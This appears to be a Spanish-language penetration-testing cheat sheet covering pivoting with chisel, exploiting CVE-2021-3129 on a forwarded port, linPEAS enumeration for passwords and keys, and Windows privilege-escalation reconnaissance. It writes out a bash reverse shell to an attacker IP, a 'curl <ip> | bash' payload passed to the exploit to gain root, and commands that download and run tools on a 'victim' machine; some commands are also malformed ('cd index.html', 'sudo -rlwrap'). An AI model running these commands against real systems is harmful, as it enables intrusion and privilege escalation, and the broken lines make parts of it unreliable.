```
cd /tmp
wget http://<ip-address>/chisel				# Desde la máquina víctima.
chmod +x chisel
./chisel client <ip-address>:1234 R:8000:127.0.0.1:8000	
# Esto hará que el puerto 8000 de la máquina víctima se transfiera a tu máquina como el puerto 8000 y puedeas acceder a el 
# desde el localhost Ej; localhost:8000

./chisel server reverse -p 1234				# Desde tu máquina de atacante.

nano index.html && cd index.html
# Le metes esta linea en el index.html -> bash -i >& /dev/tcp/<ip-address>/443 0>&1
sudo python3 -m http.server 80

sudo -rlwrap ncat -nlvp 443

git clone CVE-2021-3129 
cd CVE-2021-3129 && ./exploit.py http://localhost:8000 Monolog/RCE1 'curl <tu-ip-address> | bash'
```
Al ejecutarlo ganaras acceso al sistema como el usuario root.
<br><br>
## linPEAS.sh.
linPEAS es una herramienta que te automatiza la escalada de privilegios reportandote aquellas vías potenciales por las cuales puedes llegar a convertirte en usuario root.
Te clonas el repositorio de github https://github.com/carlospolop/PEASS-ng/releases/tag/20220731 a tu equipo y te comprartes un servicio con python3 para transferir el linPEAS.sh a la máquina víctima.<br>Te transfieres el linPEAS, le das permisos de ejecución y lo ejecutas.<br>Busca por cosas relacionadas con nombres de bases de datos (mysql, mongo etc), passwords, keys, usernames, emails, información que sea delicada.
```
git clone https://github.com/carlospolop/PEASS-ng/releases/tag/20220731
sudo python3 -m http.server 80

wget http://<ip-address/linPEAS.sh			# Desde la máquina víctima
chmod +x linPEAS.sh
./linPEAS.sh
```
<br><br>
## ESCALADA DE PRIVILEGIOS EN WINDOWS.
## systeminfo | reg query.
Comando para aplicar reconocimiento dentro del equipo y ver la versión del sistema operativo mediante la función reg query.
```
reg query "hklm\software\microsoft\windows nt\currentversion" /v ProductName
```
<br><br>
## whoami /all.
Este comando muestra información del token de acceso, el nombre de usuario, los identificadores de seguridad(SID), los privilegios y grupos a los cuales pertenece el usuario actual.
<br><br>
## whoami /priv.
Este comando te permite ver los privilegios que tiene asignado el usuario actual.<br>
En caso de que el usuario tenga asignado el privilegio SeImpersonatePrivilege puedes llegar a escalar privilegios haciendo uso de la herramienta juicypotato.exe que se encuentra en github.<br>Lo que hace el juicypotato.exe es crear un usuario y despues lo asigna al grupo Administrator para que tenga los privilegios maximos dentro del sistema.<br>